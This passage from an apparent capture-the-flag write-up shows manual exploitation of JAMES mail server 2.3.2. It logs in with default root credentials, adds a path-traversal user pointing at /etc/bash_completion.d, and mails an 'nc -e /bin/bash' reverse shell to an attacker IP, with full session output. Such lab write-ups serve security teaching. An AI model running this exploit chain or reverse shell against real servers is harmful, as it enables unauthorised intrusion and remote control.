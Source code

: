 Opening the script, I see exactly the process as described above:

[![James Exploit Notes](https://0xdfimages.gitlab.io/img/james-exploit.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/james-exploit.png)

#### Manual Exploitation

Seeing what the script does, I’ll try this manually with `nc` and `telnet`. First, create a user:

```

root@kali# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
User ../../../../../../../../etc/bash_completion.d added
quit
Bye

```

Now, I’ll send that user an email with a reverse shell, connecting to SMTP on 25:

```

root@kali# telnet 10.10.10.51 25
Trying 10.10.10.51...  
Connected to 10.10.10.51.     
Escape character is '^]'.              
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 22:28:40 -0400 (EDT)
EHLO 0xdf
250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
250-PIPELINING                            
250 ENHANCEDSTATUSCODES
MAIL FROM: <'0xdf@10.10.14.47>
250 2.1.0 Sender <'0xdf@10.10.14.47> OK 
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>               
FROM: 0xdf@10.10.14.47            
'
/bin/nc -e /bin/bash 10.10.14.47 443
.
250 2.6.0 Message received                          
quit                                                      
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.     

```
